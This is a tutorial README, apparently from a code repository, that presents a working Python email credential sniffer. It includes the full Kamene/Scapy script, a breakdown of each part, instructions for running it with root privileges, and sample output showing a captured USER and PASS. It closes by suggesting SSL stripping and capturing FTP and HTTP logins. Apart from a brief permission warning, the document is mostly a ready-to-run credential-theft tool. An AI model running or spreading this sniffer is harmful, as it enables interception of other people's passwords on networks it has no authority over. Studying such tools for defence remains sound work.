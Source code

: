 # **Email Credential Sniffer in Python**  

This script **captures email-related network traffic** and extracts potential **username** and **password** data from unencrypted connections.  

```python
from kamene.all import *

def packet_callback(packet):
    if packet[TCP].payload:
        mail_packet = bytes(packet[TCP].payload)
        if b"user" in mail_packet.lower() or b"pass" in mail_packet.lower():
            print(f"[*] Server: {packet[IP].dst}")
            print(f"[*] {packet[TCP].payload}")

sniff(filter="tcp port 110 or tcp 25 or tcp port 143", prn=packet_callback, store=0)
```


---

## **1. How It Works**  
- Uses **Kamene** (a fork of Scapy) to sniff packets.  
- Listens on common email ports:  
  - **Port 110** (POP3 - Receiving email).  
  - **Port 25** (SMTP - Sending email).  
  - **Port 143** (IMAP - Receiving email).  
- Extracts **TCP payloads** and checks for **"user"** or **"pass"** in plaintext.  
- Displays the **server IP** and captured credentials.  

---

## **2. Code Breakdown**  

### **Importing Kamene (Scapy Alternative)**  
```python
from kamene.all import *
```
- **Kamene** is a Scapy fork that avoids conflicts with Python’s networking stack.  
- If you don't have Kamene, install it using:  
  ```sh
  pip install kamene
  ```

---

### **Defining the Packet Handler**  
```python
def packet_callback(packet):
    if packet[TCP].payload:
        mail_packet = bytes(packet[TCP].payload)
        if b"user" in mail_packet.lower() or b"pass" in mail_packet.lower():
            print(f"[*] Server: {packet[IP].dst}")
            print(f"[*] {packet[TCP].payload}")
```
- **Checks if the TCP packet has a payload** (actual data).  
- Converts the payload to **bytes** for processing.  
- Searches for **"user"** or **"pass"** (case-insensitive) in the captured data.  
- If found, prints:  
  - **Server IP** (destination address).  
  - **The actual captured credentials**.  

---

### **Starting the Sniffer**  
```python
sniff(filter="tcp port 110 or tcp 25 or tcp port 143", prn=packet_callback, store=0)
```
- Captures **TCP traffic** on email-related ports.  
- Calls `packet_callback()` for each intercepted packet.  
- Does **not store** packets in memory (`store=0` for efficiency).  

---

## **3. How to Run the Sniffer**  

### **Prerequisites**  
- **Python 3.x**  
- **Kamene library** (`pip install kamene`)  
- **Root/Administrator privileges** (required for sniffing network traffic)  

### **Steps to Run**  

#### **On Linux/macOS**  
```sh
sudo python3 email_sniffer.py
```

#### **On Windows**  
1. Run **Command Prompt** as Administrator.  
2. Execute:  
   ```sh
   python email_sniffer.py
   ```

---

## **4. Expected Output Example**  

```sh
[*] Server: 192.168.1.10
[*] b'USER johndoe\r\n'
[*] Server: 192.168.1.10
[*] b'PASS secret123\r\n'
```
- Captures **username** and **password** from unencrypted email traffic.  

---

## **5. Limitations & Ethical Considerations**  
⚠ **Warning: This script should only be used for ethical testing on networks you own or have permission to monitor. Unauthorized packet sniffing is illegal in many jurisdictions.**  

### **Limitations**  
- **Only works on unencrypted email traffic.**  
- Modern email services use **SSL/TLS encryption** (e.g., **SMTP over port 465, IMAP over port 993**), which this script **cannot decrypt**.  

---

## **6. Enhancements**  
✅ **Support SSL/TLS decryption** using `mitmproxy` or `SSLStrip`.  
✅ **Expand to capture FTP (`port 21`) or HTTP (`port 80`) logins.**  
✅ **Log captured credentials** to a file for further analysis.  

---

## **7. Conclusion**  
- This script is a **basic email credential sniffer** for unencrypted email protocols.  
- Useful for **network security testing** but **not effective against encrypted connections**.  
